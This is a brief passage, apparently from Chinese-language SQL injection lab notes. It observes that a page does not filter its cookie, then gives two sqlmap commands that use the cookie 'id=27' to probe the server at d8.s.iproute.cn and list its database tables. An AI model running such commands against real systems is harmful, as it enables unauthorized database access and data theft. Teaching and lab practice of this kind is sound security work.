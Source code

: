 但是cookie却没有做拦截

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675318467810-650a9438-af63-47c9-ab76-041fd2e3e088.png)

使用sqlmap对cookie进行探测，得到服务器相关信息

```sql
sqlmap -u "http://d8.s.iproute.cn/shownews.asp" --cookie "id=27" --level 2
```

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675318875547-b32d2513-8cd9-4ad7-9f9b-f56c9d398c7d.png)
获取数据表名

```sql
sqlmap -u "http://d8.s.iproute.cn/shownews.asp" --cookie "id=27" --level 2 --tables
```
